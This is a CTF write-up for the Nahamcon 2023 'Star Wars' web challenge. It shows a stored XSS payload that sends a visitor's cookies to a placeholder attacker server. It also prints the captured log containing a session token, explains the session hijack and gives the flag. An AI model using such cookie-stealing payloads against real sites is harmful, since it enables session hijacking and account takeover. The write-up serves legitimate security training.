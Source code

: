 ```yaml
---
name: Star Wars (2023)
event: Nahamcon CTF 2023
category: Web
description: Writeup for Star Wars (Web) - Nahamcon CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Star Wars

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/XHg_sBD0-es/0.jpg)](https://www.youtube.com/watch?v=XHg_sBD0-es?t=18 "Nahamcon CTF 2023: Star Wars (Web)")

## Description

> If you love Star Wars as much as I do you need to check out this blog!

## Solution

Can't create an account or sign up as admin.

Register as `cat` and find a guestbook, provide XSS payload to steal cookie.

```html
<script>
    new Image().src =
        "http://ATTACKER_SERVER.ngrok-free.app?c=" + document.cookie;
</script>
```

Request is made to our server containing cookies, including a [JWT](https://youtu.be/GIq3naOLrTg)

```bash
127.0.0.1 - - [15/Jun/2023 23:09:24] "GET /?c=ss_cvr=3ad69c49-d9aa-4fb0-b6f1-5c38324adf3b|1686862282337|1686862282337|1686862282337|1;%20x-wing=eyJfcGVybWFuZW50Ijp0cnVlLCJpZCI6MX0.ZIuMEw.0OSvB-AGOciNuH-n824cnC9uTFE HTTP/1.1" 200 -
```

We replace the session cookie with `eyJfcGVybWFuZW50Ijp0cnVlLCJpZCI6MX0.ZIuMEw.0OSvB-AGOciNuH-n824cnC9uTFE` and receive a flag!

Flag: `flag{a538c88890d45a382e44dfd00296a99b}`
